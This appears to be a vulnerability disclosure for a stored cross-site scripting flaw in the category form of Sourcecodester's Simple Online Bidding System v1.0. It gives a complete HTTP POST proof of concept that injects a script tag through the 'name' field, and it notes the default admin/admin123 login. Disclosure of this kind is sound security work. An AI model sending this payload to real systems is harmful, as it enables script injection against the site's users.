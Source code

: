 XSS vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=categories

related code file：admin_class.php

related_function：save_category()

#### 1.Vulnerability analysis

The `save_category()` function in `admin_class.php` receives category-related parameters via POST without validating or escaping the incoming parameters. It directly concatenates these parameters into the SQL `insert` statement, which allows attackers to insert malicious script statements and execute XSS attacks.

![image1](https://github.com/pijiawei/CVE/blob/pijiawei-photo/image1.png)

#### 2.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

```
POST /admin/ajax.php?action=save_category HTTP/1.1
Host: 10.15.6.184:81
Content-Length: 254
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1k9MfksQcNnRazPp
Origin: http://10.15.6.184:81
Referer: http://10.15.6.184:81/admin/index.php?page=categories
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vvku8vnm5dicgigog9a9tc6p41
Connection: close

------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="id"


------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="name"

xss<script>alert(111)</script>
------WebKitFormBoundary1k9MfksQcNnRazPp--

```

After successfully executing the PoC, you can observe that the malicious pop-up has occurred on the Home page accessible to regular users, indicating a successful XSS attack.

![image2](https://github.com/pijiawei/CVE/blob/pijiawei-photo/image2.png)

